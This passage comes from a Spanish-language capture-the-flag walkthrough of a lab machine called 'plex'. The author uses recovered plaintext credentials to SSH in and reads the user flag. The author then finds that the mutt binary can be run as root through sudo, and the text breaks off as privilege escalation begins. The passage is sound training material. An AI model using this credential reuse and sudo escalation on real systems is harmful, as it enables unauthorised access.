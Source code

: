 ><span style="color:Cornflowerblue">ⓘ NOTA:</span>
>
><span style="color:Cornflowerblue">Pueden haber muchas web de la misma capacidad o similares pero en lo personal esta es la que mas me agrada, por capacidad de detectar el tipo de hash o algoritmo y poder descifrar su contenido.</span> 

Bingo! encontramos credenciales de acceso del usuario `mauro`, con este acceso `m@uR0123!` probaremos
acceso al ssh detectado al inicio.

## 4. Acceso al Objetivo

### 4.1 Conexion SSH con el nuevo usuario mauro

Utilizando las credenciales encontradas, validamos la conexión al objetivo.

```bash
┌──(root㉿kali)-[/home/kali]
└─# ssh -p21 mauro@192.168.137.225
mauro@192.168.137.10's password: 
mauro@plex:~$ 
mauro@plex:~$ whoami
mauro
mauro@plex:~$ id
uid=1000(mauro) gid=1000(mauro) grupos=1000(mauro)
mauro@plex:~$ pwd
/home/mauro
mauro@plex:~$ 
```

### 4.2 Primera Flag

Buscamos la flag para poder culminar el desafio para esto listamos los archivos dentro del
directorio donde nos encontramos.

```bash
mauro@plex:~$ ls
user.txt
mauro@plex:~$ cat user.txt 
05135a0133cbb692dc66761e5d99364a
mauro@plex:~$ 
```
Listando, encontramos el archivo users.txt, y dentro de él, la flag del desafío.

## 5. Escalamiento de Privilegios

### 5.1 Somos root

Para obtener privilegios de root primero debemos saber cuales son los comandos que estamos autorizado a ejecutar con permisos elevados para esto nos ayudamos con el comando sudo.

```bash
mauro@plex:~$ sudo -l
Matching Defaults entries for mauro on plex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mauro may run the following commands on plex:
    (root) NOPASSWD: /usr/bin/mutt
mauro@plex:~$ 
```
Observamos que podemos ejecutar `mutt` como superusuario asi que probemos con `/usr/bin/mutt`.
